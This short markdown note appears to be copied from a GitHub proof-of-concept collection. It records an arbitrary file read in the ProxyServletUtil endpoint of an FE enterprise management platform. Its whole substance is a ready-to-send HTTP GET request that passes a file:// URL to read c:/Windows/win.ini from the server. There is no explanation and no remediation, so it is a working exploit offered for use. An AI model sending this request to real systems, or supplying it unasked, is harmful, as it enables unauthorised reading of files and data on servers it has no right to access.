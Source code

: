 # FE_ProxyServletUti_fileread

2024.4.22 @2 
from: https://github.com/wy876/POC/blob/main/%E9%A3%9E%E4%BC%81%E4%BA%92%E8%81%94-FE%E4%BC%81%E4%B8%9A%E8%BF%90%E8%90%A5%E7%AE%A1%E7%90%86%E5%B9%B3%E5%8F%B0ProxyServletUti%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E.md
```
GET /ProxyServletUtil?url=file:///c:/Windows/win.ini HTTP/1.1

```
